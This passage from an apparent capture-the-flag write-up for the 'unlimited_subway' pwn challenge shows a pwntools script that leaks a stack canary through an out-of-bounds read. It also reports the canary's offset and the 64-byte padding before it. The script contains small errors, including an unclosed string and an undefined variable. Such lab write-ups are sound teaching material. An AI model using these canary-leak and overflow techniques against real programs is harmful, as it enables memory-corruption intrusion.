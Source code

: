 However, since the program is leaking bytes off the stack we can just leak the `canary`, and if we want to utilize our `buffer overflow` from earlier, we can just overwrite it with the same value. 

To leak the stack `canary` I made a quick script:

```
from pwn import *
context.binary = binary = ELF('./unlimited_subway)
p = process()
for i in range(200):
  payload = f'V\n{i}'.encode()
  p.sendline(payload)
  recv_text = f'Index {i} '.encode()
  p.recvuntil(recv_text)
  out = p.recvline().replace(b' ', b'').replace(b':', b'').strip()
  canary += out
  log.info(out)
```


After scrolling through the bytes that was outputted, I found some at offset 128 - 131

So I opened the binary up in `pwndbg` and sure enough I was leaking the `canary`.

![gdb canary](/assets/csaw23/pwn/unlimited_subway/gdb_canaries.png) 

![leaked canary](/assets/csaw23/pwn/unlimited_subway/program_canary.png)


Now we need to find how far away the `canary` is from our output. There is probably a better way to do this, but I just tried 100 characters, then 80, and so on until it didn't crash.

I found 64 bytes to be the number of bytes we can write before overwriting the `canary`. 
